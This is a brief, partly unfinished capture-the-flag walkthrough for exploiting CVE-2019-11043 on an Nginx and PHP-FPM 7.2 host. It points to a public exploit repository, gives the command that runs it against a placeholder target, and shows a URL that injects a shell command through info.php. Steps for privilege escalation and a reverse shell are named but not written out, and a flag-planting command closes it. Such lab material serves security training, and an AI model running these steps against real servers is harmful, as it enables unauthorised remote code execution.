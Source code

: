 # Scenario

- There is a web hosting running Nginx + PHP-FPM 7.2 which is outdated minor version and having insecure RegEx config.
- CVE-2019-11043

## Step 1: Find the .php file

`info.php` (phpinfo) is accessible from the homepage.

## Step 2: Exploit

Download Exploit
https://github.com/jas502n/CVE-2019-11043

Run Exploit
```
./phuip-fpizam http://{$TARGET_IP}/info.php
```

Output will be like this
<img src="https://github.com/jas502n/CVE-2019-11043/raw/master/php-command.jpg">

## Step 3: Inject code

```
http://{$TARGET_IP}/info.php?a=id
```

Output will be like this
<img src="https://github.com/jas502n/CVE-2019-11043/raw/master/CVE-2019-11043.jpg">

This website is running as a normal user

## Step 4: Find how to escalate

```
TODO: Write up
```

## Step 5: Run the exploit again on a website running as sudoer

## Step 6: Make a reverse shell.

## Step 7: Capture! (ประกาศศักดาว่าข้ายึดแล้วนะ)

```
sudo echo TEAM_NAME > /root/flag.txt
```
